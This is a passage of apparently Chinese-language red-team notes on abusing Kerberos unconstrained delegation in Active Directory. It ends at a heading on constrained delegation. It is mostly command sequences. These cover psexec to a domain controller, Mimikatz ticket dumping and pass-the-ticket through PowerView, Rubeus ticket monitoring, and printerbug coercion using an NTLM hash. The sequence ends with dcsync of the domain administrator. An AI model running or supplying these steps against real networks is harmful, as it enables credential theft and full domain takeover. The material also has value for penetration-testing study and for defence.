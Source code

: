 
```
在域控上使用Administrator访问sqladmin所在主机Srv-Web-Kit的SMB服务。

dir \\Srv-Web-Kit.rootkit.org\c$
```
然后在Srv-Web-Kit上面导出ticket,ptt即可.后续利用就和之前一样.
```cpp
psexec.exe \\dc -s cmd.exe
```
```
每当存在用户访问tsvc的服务时，tsvc的服务就会将访问者的TGT保存在内存中，可以通过这个TGT访问这个TGT所属用户的所有服务。
```
#### PowerView
```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
#### Rubeus


```cpp
powershell-import /opt/Tools/lab10/powerview-dev.ps1
powerpick Get-DomainComputer -Unconstrained #找到对应用户和服务
execute-assembly /opt/Tools/lab10/rubeus.exe monitor /interval:1 #监控域内请求,抓取凭据
DNS_SERVER=${PROXYRESOLV_DNS:-10.0.2.200} #设置proxy的dns解析,指向应该是域控的ip.或者有打印服务的机器
cd /opt/Tools/lab10/krbrelayx
. ./venv/bin/activate
#利用打印服务漏洞主动发起请求
proxychains python printerbug.py -hashes :659de2671ddd13848b8a511e97893da6 ironbank.local/arya.stark@dc.ironbank.local workstation.ironbank.local
#PTT
execute-assembly /opt/Tools/lab10/rubeus.exe ptt /ticket:<base64 ticket>
dcsync ironbank.local ironbank\administrato
```
用完记得jobkill


### 约束委派攻击利用
